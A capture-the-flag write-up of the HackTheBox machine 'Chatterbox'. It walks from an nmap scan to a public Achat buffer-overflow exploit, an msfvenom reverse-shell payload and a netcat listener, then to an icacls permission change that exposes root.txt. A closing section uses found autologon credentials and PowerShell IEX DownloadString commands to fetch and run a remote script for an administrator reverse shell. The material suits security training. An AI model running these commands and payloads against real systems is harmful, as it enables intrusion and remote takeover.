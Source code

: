 # Chatterbox | HackTheBox

### 1. Scan
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~]
└──╼ $sudo nmap -p- -A -T4 10.129.57.49
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 01:07 UTC
Nmap scan report for 10.129.57.49
Host is up (0.16s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
9255/tcp open  tcpwrapped
9256/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 9256/tcp)
HOP RTT       ADDRESS
1   161.28 ms 10.10.14.1
2   161.43 ms 10.129.57.49

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 440.89 seconds
```
The machine has a couple of open ports. Nmap seems to think it's a phone.

### 2. Enumeration
Doing some research (aka searching "port 9255 port 9256 phone" on Google) on these ports shows that they are used for a few applications, and one called "Achat" has a known exploit. There doesn't seem to be any way to confirm Achat is running on the machine.
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~]
└──╼ $searchsploit achat
----------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                           |  Path
----------------------------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                                               | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                  | windows/remote/36056.rb
MataChat - 'input.php' Multiple Cross-Site Scripting Vulnerabilities                     | php/webapps/32958.txt
Parachat 5.5 - Directory Traversal                                                       | php/webapps/24647.txt
----------------------------------------------------------------------------------------- ---------------------------------
```

### 3. Get a shell
Going to use the python exploit. Generate the payload:
```bash
┌─[✗]─[htb-jib1337@htb-kqm1jmc3v1]─[~/Desktop]
└──╼ $msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=9999 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3767 bytes
```

Fire the exploit with a listener running:
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~/Desktop]
└──╼ $python2 36025.py 
---->{P00F}!
```

Catch the shell.
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~/Desktop]
└──╼ $nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.54.196 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
```

### 4. Enumerate from user
Nothing stands out when checking privileges and groups.
```shell
C:\Users\Alfred\Desktop>systeminfo

Host Name:                 CHATTERBOX
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
```
The machine is Windows 7 but it is very well patched. It also turns out that this user does have access to the Admin folder, at least for reading.
```shell
C:\Users\Alfred\Desktop>dir C:\Users\Administrator\Desktop 
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
07/09/2021  10:04 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  19,484,651,520 bytes free

C:\Users\Alfred\Desktop>type C:\Users\Administrator\Desktop\root.txt
Access is denied.
```
Inspect the directory permissions.
```shell
C:\Users\Alfred\Desktop>icacls C:\Users\Administrator\Desktop 
C:\Users\Administrator\Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                               CHATTERBOX\Administrator:(I)(OI)(CI)(F)
                               BUILTIN\Administrators:(I)(OI)(CI)(F)
                               CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```
It says that I should have full access (F) to this folder.
```shell
C:\Users\Alfred\Desktop>dir /q C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          BUILTIN\Administrators .
12/10/2017  07:50 PM    <DIR>          NT AUTHORITY\SYSTEM    ..
07/09/2021  10:04 PM                34 CHATTERBOX\Alfred      root.txt
               1 File(s)             34 bytes
               2 Dir(s)  19,484,672,000 bytes free
```
Plus Alfred actually owns this file.

### 5. Don't escalate, but read the file
Reference: https://ss64.com/nt/icacls.html  
Using icacls, change the file permission to be full access for the Alfred user.
```shell
C:\Users\Administrator\Desktop>icacls root.txt /grant:r Alfred:(F)
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files
```
The root.txt file can then be read.

### Extra
I found out there is actually a way to get to Administrator on this machine by use of autologin credentials which are used for both Administrator and Alfred. They can be found through running a few enum scripts including Winpeas:
```shell
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  Alfred
    DefaultPassword               :  Welcome1!
```

To spawn new shell as Administrator, copy over a file (see run.ps1), which loads the credentials, then fetches and executes a reverse shell script (called run2.ps1) under the Admin user.  
```powershell
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)

$runthis = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/run2.ps1')"

Start-Process -FilePath "powershell" -argumentlist $runthis -Credential $creds -WorkingDirectory 'C:\Windows\system32'
```

A HTTP server is started to serve the files.
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~/Desktop]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Execute the script in memory.
```shell
C:\Users\Alfred\Desktop>powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.17:8000/run.ps1')"
```

The shell opens in the listener.
```bash
┌─[htb-jib1337@htb-kqm1jmc3v1]─[~/Desktop]
└──╼ $nc -lvnp 9998
Listening on 0.0.0.0 9998
Connection received on 10.129.171.226 49175

PS C:\Windows\system32> whoami 
chatterbox\administrator
```